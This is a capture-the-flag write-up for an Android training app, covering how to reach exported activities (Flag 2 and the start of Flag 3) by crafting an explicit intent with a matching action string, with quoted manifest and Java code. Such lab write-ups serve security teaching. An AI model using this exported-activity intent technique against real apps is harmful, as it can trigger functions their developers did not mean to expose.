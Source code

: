 ### Flag 2
#### Code analysis
```xml
<activity
android:name="io.hextree.attacksurface.activities.Flag2Activity"
android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
   </intent-filter>
</activity>
```

Here the Filter shows that This activity listens for an **action string**: `io.hextree.action.GIVE_FLAG` and only with that an intent will be received

```Java
protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        String action = getIntent().getAction();
        if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
            return;
        }
        this.f.addTag(action);
        success(this);
    } 
```

The Intent is received by `getIntent()` method and action is read then stored by method `getAction()` in action string, Then a check to see if it's null (empty) or have a different flag.
if all are good and clear then `success()` is called;

#### Solution
set the flag but don't forget to set the correct Package and activity name

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag2Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
startActivity(EvilIntent);  
```

### Flag 3
#### Code analysis
```xml
<activity
	android:name="io.hextree.attacksurface.activities.Flag3Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```
